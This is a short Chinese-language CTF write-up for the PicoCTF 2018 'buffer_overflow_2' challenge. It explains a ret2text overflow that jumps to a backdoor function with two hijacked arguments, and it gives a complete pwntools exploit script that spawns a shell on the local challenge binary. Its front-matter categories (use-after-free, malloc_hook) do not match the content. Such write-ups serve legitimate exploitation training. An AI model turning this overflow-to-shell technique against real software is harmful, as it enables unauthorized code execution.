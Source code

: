 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

![image-20240106203324958](../assets/img/old_imgs/image-20240106203324958.png)

![image-20240106203332714](../assets/img/old_imgs/image-20240106203332714.png)

- `ret2text`
- `32`位程序函数参数劫持

1. `vuln`函数中存在溢出
2. 存在后门函数
3. 构造`payload`跳转到后门函数得到`shell`

这里要注意,跳转到后门函数的同时要传入两个参数`a1 & a2`,缺失参数会导致`eof`错误

```python
from pwn import *
io = process('./PicoCTF_2018_buffer_overflow_2')
padding = b'A'*(0x6c+4)
payload = padding+p32(0x080485CB)+p32(0)+p32(0xDEADBEEF)+p32(0xDEADC0DE)
io.sendlineafter(b'Please enter your string:',payload)
io.interactive()
```

